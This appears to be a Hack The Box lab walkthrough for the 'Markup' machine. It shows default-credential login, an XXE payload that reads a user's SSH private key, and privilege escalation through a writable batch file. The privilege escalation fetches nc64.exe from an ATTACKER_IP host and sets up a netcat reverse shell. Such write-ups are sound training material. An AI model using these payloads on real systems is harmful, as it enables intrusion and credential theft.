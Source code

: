 
# HTB Walkthrough: Markup

This walkthrough covers the steps taken to complete the HTB machine **Markup**, including identifying vulnerabilities and leveraging them to gain initial and root access.

---

## Task 1: What version of Apache is running on the target’s port 80?

The first step was to perform an Nmap scan to enumerate open ports and services:
```bash
nmap -sC -sV TARGET_IP
```

This revealed three open ports: **22 (SSH)**, **80 (HTTP)**, and **443 (HTTPS)**.  

Examining port 80, I identified the version of Apache running on the target web server.

---

## Task 2: What username:password combination logs in successfully?

After identifying the web server on port 80, I began testing common username and password combinations. For example:

- `admin:12345`  
- `administrator:password`  
- `admin:password`  

The last combination, `admin:password`, was successful and granted access to the application.

---

## Task 3: What is the word at the top of the page that accepts user input?

Navigating through the website, I found a form on the **Order** page. This form accepts user input, which is essential for interacting with the target system.

---

## Task 4: What XML version is used on the target?

To determine the XML version, I used **BurpSuite** with the **FoxyProxy** plugin to intercept requests on port 8080. I submitted random data in the order form and inspected the request payload. This revealed the XML version used by the target.

---

## Task 5: What does the XXE/XEE attack acronym stand for?

XXE stands for **XML External Entity**. This information was quickly verified with a simple Google search.

---

## Task 6: What username can we find on the webpage’s HTML code?

Inspecting the webpage's source code in Mozilla Firefox repeatedly loaded `index.php`. Switching to Chromium allowed me to view the source code correctly, where I found the username: `daniel`.

---

## Task 7: What is the file located in the Log-Management folder on the target?

With the username `daniel` and the knowledge that SSH (port 22) was open, I deduced that each user would likely have a private key for authentication. Using an **XXE Injection**, I retrieved the private key.

In **BurpSuite**, I sent the intercepted request to the Repeater module and modified the XML payload as follows:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>
]>
<order>
  <quantity>3</quantity>
  <item>&test;</item>
  <address>17th Estate, CA</address>
</order>
```

This injection retrieved Daniel's private key. After saving it locally, I adjusted its permissions to make it readable for SSH:
```bash
chmod 600 id_rsa
```

Then, I connected to the target using the private key:
```bash
ssh -i id_rsa daniel@TARGET_IP
```

Once inside, I navigated to the **Log-Management** folder to locate the required file.

---

## Task 8: What executable is mentioned in the file mentioned before?

Using the `type` command, I inspected the file in the Log-Management folder and discovered references to an executable named `wevtutil`.

The purpose of `wevtutil` is to manage Windows event logs, such as querying, exporting, or clearing them. In this case, it was used alongside parameters `el` and `cl` in a batch script named **job.bat**.

---

## User Flag

The user flag was located in:
`C:/Users/daniel/Desktop/user.txt`

---

## Root Flag

Returning to the **Log-Management** folder, I examined **job.bat**, which was configured to clear log files. While it required Administrator privileges to execute, the file permissions revealed a vulnerability: the `BUILTIN\Users` group (which includes `daniel`) had full control over the file.

I modified **job.bat** to execute a reverse shell using Netcat:
1. Downloaded **nc64.exe** to the target system. Since the machine had no direct internet access, I hosted a simple HTTP server on the attack box:
   ```bash
   python3 -m http.server
   ```
   On the target system, I downloaded the file:
   ```powershell
   Invoke-WebRequest -Uri http://ATTACKER_IP:8000/nc64.exe -OutFile C:\Log-Management\nc64.exe
   ```

2. Edited **job.bat** to include the Netcat reverse shell command:
   ```bash
   echo C:\Log-Management\nc64.exe -e cmd.exe ATTACKER_IP PORT > C:\Log-Management\job.bat
   ```

3. Started a listener on the attack box:
   ```bash
   nc -lvnp PORT
   ```

When the script executed, I received a shell as the Administrator. The root flag was located in:
`C:/Users/administrator/Desktop/root.txt`

---

## Conclusion

The **Markup** machine highlights common misconfigurations and vulnerabilities, including weak credentials, XXE injection, and improper file permissions. These provided a clear path to escalate privileges and gain full control of the target.
